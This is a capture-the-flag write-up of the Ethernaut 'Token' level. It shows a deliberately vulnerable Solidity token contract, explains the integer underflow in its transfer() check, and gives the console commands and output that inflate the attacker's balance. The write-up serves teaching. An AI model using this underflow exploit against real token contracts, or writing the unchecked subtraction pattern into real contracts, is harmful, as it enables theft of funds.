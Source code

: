 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg">

## Review Target Contract

Given contract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
Challenge's message.

> The goal of this level is for you to hack the basic token contract below.
You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Check our balance.

```shell
await contract.balanceOf('0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b')
o {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [20, boş]
[[Prototype]]
: 
Object
```

There is simple contract which does transfer some values to receiver balance's. If we look carefully, we can easily find the ```integer underflow vulnerability``` which is in the ```transfer()``` function. To explain more technicality, if we enter value that is more than integer variable's limit, variable will be underflow. In other words, msg.sender's balance will be like this;

```solidity

balances[msg.sender] -= _value;
// 20 -= 21;
// balances[msg.sender] = 1.1579209e+77;
```
More about [overflow and underflow vulnerability in solidity.](https://hackernoon.com/hack-solidity-integer-overflow-and-underflow)

## Subverting

The only thing that will solve this challenge is to send value to an address greater than 20 to the **_value** variable and transfer an address which is not ours.

```shell
await contract.transfer( "0x1824d95Fc8b6fFF19867D09654bCF1369AeD4C21", 20 + 1)
```

```shell
await contract.balanceOf('0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b')
o {negative: 0, words: Array(11), length: 10, red: null}length: 10negative: 0red: nullwords: (11) [67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 4194303, boş][[Prototype]]: Object
```

**_by wasny0ps_**
